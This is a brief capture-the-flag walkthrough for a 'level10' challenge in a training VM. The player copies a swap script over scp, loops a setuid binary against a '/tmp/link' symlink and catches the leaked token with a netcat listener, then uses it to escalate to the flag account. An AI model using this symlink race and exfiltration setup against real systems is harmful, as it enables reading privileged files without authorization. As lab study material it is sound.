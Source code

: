 host:
- `scp -P 4242 swap_script.sh level10@192.168.56.101:/tmp/swap_script.sh`
- paste the previous flag as the password

we will need 3 terminals in the vm, we can connect to vm 2 more times to get our 3 terminals with `ssh -p 4242 level10@192.168.56.101` using the same password

ssh 2:
- `/tmp/swap_script.sh`

ssh 3:
- `while true; do ./level10 /tmp/link 192.168.56.101; done`

ssh 1:
- `nc -lk 6969`, copy the token when it shows up

close ssh 2 and 3, keeping the output of nc available

ssh:
- `su flag10`, paste the token
- `getflag`, copy the flag
- `su level11`, paste the flag as the password